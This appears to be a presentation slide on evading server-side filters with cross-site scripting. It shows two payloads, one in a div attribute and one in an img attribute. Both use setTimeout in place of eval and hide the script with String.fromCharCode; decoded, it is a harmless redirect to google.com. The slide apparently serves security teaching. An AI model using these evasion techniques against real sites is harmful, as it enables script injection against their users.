

# Filtering on Server Side
If the server filters ‘eval’ then use setTimeout
<div id="UserDataNode0" class='UserID=17601323"+setTimeout(String.fromCharCode(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,61,34,104,116,116,112,58,47,47,119,119,119,46,103,111,111,103,108,101,46,99,111,109,34,59),0)+";'></div>
If the server filters div tag, use img tag
<img id="UserDataNode0" class='UserID=17601323"+setTimeout(String.fromCharCode(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,61,34,104,116,116,112,58,47,47,119,119,119,46,103,111,111,103,108,101,46,99,111,109,34,59),0)+";' src="blah.jpg">